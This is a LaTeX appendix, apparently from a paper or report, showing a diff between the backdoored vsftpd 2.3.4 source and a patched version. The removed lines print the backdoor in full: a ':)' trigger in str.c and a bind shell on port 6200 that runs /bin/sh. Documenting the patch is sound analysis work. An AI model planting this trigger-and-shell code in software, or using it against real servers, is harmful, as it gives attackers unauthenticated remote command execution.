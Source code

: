 \documentclass[12pt]{article}
\begin{document}
\section*{Appendix}
\label{sect:appendix}
\begin{lstlisting}[language=diff, 
caption=\href{http://pastebin.com/AetT9sS5}{Diff vsftpd Vulernable and Patched Source: Pastebin},
label=lst:vsftpddiff]
diff -ur vsftpd-2.3.4/str.c vsftpd-2.3.4.4players/str.c
--- vsftpd-2.3.4/str.c  2011-06-30 15:52:38.000000000 +0200
+++ vsftpd-2.3.4.4players/str.c 2008-12-17 06:54:16.000000000 +0100
@@ -569,11 +569,6 @@
     {
       return 1;
     }
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
   }
   return 0;
}

 diff -ur vsftpd-2.3.4/sysdeputil.c vsftpd-2.3.4.4players/sysdeputil.c
--- vsftpd-2.3.4/sysdeputil.c   2011-06-30 15:58:00.000000000 +0200
+++ vsftpd-2.3.4.4players/sysdeputil.c  2010-03-26 04:25:33.000000000 +0100
@@ -34,10 +34,7 @@
 /* For FreeBSD */
 #include <sys/param.h>
 #include <sys/uio.h>
-#include <netinet/in.h>
-#include <netdb.h>
-#include <string.h>
-#include <stdlib.h>
+
 #include <sys/prctl.h>
 #include <signal.h>
 
@@ -220,7 +217,7 @@
 static int s_proctitle_inited = 0;
 static char* s_p_proctitle = 0;
 #endif
-int vsf_sysutil_extra();
+
 #ifndef VSF_SYSDEP_HAVE_MAP_ANON
 #include <sys/types.h>
 #include <sys/stat.h>
@@ -843,30 +840,6 @@
   }
 }
 
-int
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1);
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  {
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0);
-  }
-}
-
-
\end{lstlisting}
\end{document}
